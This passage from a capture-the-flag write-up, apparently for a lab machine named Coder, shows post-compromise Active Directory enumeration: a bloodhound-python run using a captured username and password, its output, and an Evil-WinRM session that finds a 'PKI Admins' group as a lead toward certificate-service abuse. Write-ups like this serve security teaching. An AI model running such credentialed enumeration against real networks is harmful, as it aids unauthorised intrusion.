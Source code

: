 #### Collect

I’ll collect Bloodhound data using the Python script remotely from my host:

```

oxdf@hacky$ bloodhound-python -c All -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -ns 10.10.11.207 -d coder.htb -dc coder.htb --zip
INFO: Found AD domain: coder.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: coder.htb 
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: coder.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 10 users
INFO: Found 55 groups
INFO: Found 3 gpos
INFO: Found 5 ous
INFO: Found 19 containers                      
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.coder.htb
INFO: Done in 00M 28S
INFO: Compressing output into 20231120165133_bloodhound.zip  

```

I’ll upload that data into the Bloodhound GUI. The first thing I typically do is mark the users I own as owned. In this case, that’s svc\_teamcity, e.black, and probably s.blade.

#### e.black

e.black doesn’t have any outbound control. They are a member of an additional interesting group, PKI Admins:

![image-20231120173257599](/img/image-20231120173257599.png)

While this is not a default group, it seems like it’ll have control over PKI things. The comment on the group confirms this has to do with ADCS:

```
*Evil-WinRM* PS C:\Users\e.black> net group "PKI Admins"
Group name     PKI Admins
Comment        ADCS Certificate and Template Management

Members
-------------------------------------------------------------------------------
e.black
The command completed successfully.

```
